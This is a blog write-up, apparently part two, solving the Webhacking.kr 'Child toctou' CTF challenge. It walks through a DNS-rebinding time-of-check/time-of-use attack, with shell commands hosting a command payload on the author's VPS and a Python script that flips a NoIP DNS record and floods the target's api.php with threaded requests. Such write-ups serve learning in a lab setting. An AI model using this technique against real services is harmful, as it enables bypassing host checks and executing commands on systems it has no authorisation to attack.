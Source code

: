 ```yaml
---
layout: post
title: "[Webhacking.kr] Child toctou 🚲 writeup (cont'd)"
categories: hacking writeup web
---
```


## Introduction
Link: [http://webhacking.kr:10020/](http://webhacking.kr:10020/)

In the last part, I have found the vulnerable code in `api.php`. The only thing that prevented me from solving that
was the dynamic DNS functionality. With the suggestion from a friend, I finally found a way to make my exploitation
idea work.

## The exploitation

### Dynamic DNS

NoIP's Dynamic DNS service is a free service that allows us to create a DNS record. Let's make use of that.

![change_dns](/assets/images/child-toctou/change_dns.png)

But I don't want to do it manually, so I inspect the API calls on the site, and convert to Python for automation. Fortunately, modern browsers (Tested on Firefox and Chrome) support copying a request as cURL, and there is an [online service](https://curlconverter.com/) that converts cURL commands to Python code.

![curl](/assets/images/child-toctou/inspector.png)

### DNS Resolver

Python can use OS's DNS resolver with `socket.gethostbyname` method, but it is slow and behind DNS caching mechanisms which can not be bypassed. So I used `dnspython` library.

One thing I noticed was when changing DNS record, DNS servers don't reflect the change immediately. There are some jumpings back and forth between the old and the new IPs. So my code didn't reliably work every time, but that is okay because I just need to see the flag once and I'm done.


### Exposing my server

Now how do I expose my server to carry the payload? I tried using ngrok, but ngrok free plan can not expose a specific port. So I decided to buy a cheap VPS from Vultr with an public IPv4 address.
One notice is Vultr blocks all incoming traffic except on port 22 (SSH) by default, so in order to expose port 10020, we need to unblock it first

```sh
sudo ufw allow from 202.182.106.159 proto tcp to any port 10020 
```

After creating the required folder structure, I ran the server

```sh
mkdir cmd
echo "cat flag.php" > cmd/ls.txt
python3 -m http.server 10020
```

## Exploitation code

__Warning: Sensitive information got stripped off the script, so it won't run.__
```python
import requests, threading, time
import dns.resolver as dns

g_done = False

def __noip_request(ip):
    cookies = {
        'REF_CODE': 'https%3A%2F%2Fwww.noip.com%2Fmembers%2Fdns%2F',
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    }

    params = {
        'host_id': '******',
    }

    data = {
        'token': '******',
        'host[host]': 'l4rzy',
        'host[domain]': 'ddns.net',
        'host[ttl]': '60',
        'host[group_id]': '0',
        'host[type]': 'a',
        'host[ip]': ip,
        'nlocations': '0',
        'host[alias]': '',
        'host[ipv6]': '',
        'host[aname]': '',
        'host[port][ip]': '',
        'host[port][port]': '8080',
        'host[redirect][protocol]': 'https',
        'host[redirect][url]': '',
        'host[mask][title]': '',
        'host[mask][meta_keywords]': '',
        'host[mask][meta_desc]': '',
        'host[mx][0][mx]': '',
        'host[mx][0][priority]': '5',
        'do': 'update',
    }

    response = requests.post('https://www.noip.com/members/dns/host.php', params=params, cookies=cookies, headers=headers, data=data)


def change_dns(toMyServer = True):
    __noip_request('******' if toMyServer else '202.182.106.159')


def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10020/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
        'Host': 'l4rzy.ddns.net',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10020/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    result = response.text
    if "wrong" not in result and "total 16" not in result: # this is not guaranteed to work but it worked
        print(result)

def check_ip(host, ip):
    result = dns.resolve(host, 'A')
    for i in result:
        resolved = i;
    print(resolved, flush=True)
    return resolved.to_text() == ip

def check_ip_times(host, ip, times):
    for i in range(times):
        if check_ip(host, ip) == False:
            return False
    return True

print('[info] changing the DNS A record to the designated IP ...')
ip_set = check_ip('l4rzy.ddns.net', '202.182.106.159')

if ip_set == False:
    change_dns(toMyServer = False)
    while ip_set ==  False:
        ip_set = check_ip_times('l4rzy.ddns.net', '202.182.106.159', 2)
        time.sleep(1)
        
print('done')
# ---------------------
print('[info] redirecting to our site ...', flush=True)
change_dns()
print(f'[info] getting in ...')
done = False

while not done:
    check_ip('l4rzy.ddns.net', '******')
    jobs = list()
    for i in range(10):
        jobs.append(threading.Thread(target=send, args=('ls',)))
        jobs[i].start()
        
    for i in range(10):
        jobs[i].join()
```

And when we see a bunch of requests like this on our server, the challenge got pwned.

![server_output](/assets/images/child-toctou/server_output.png)

## Conclusion
I was surprised that there were only 18 people have solved this challenge (I was the 19th). I believe many people have the idea to solve, but the process of solving it is a little bit cumbersome.